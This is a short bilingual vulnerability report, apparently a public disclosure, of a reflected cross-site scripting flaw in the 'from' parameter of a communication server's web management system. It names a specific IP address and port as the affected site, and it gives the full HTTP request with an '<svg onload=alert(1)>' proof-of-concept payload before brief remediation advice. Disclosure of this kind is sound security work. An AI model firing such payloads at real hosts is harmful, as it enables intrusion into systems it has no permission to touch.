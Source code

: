 # xss of the from parameter of the web management system of the communication server

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=p5620&cat=javq6&categoryid=te9s2&emailto=ih705&from=<svg onload=alert(1)>//&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![](10.png)



### 修复建议(Repair suggestions)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

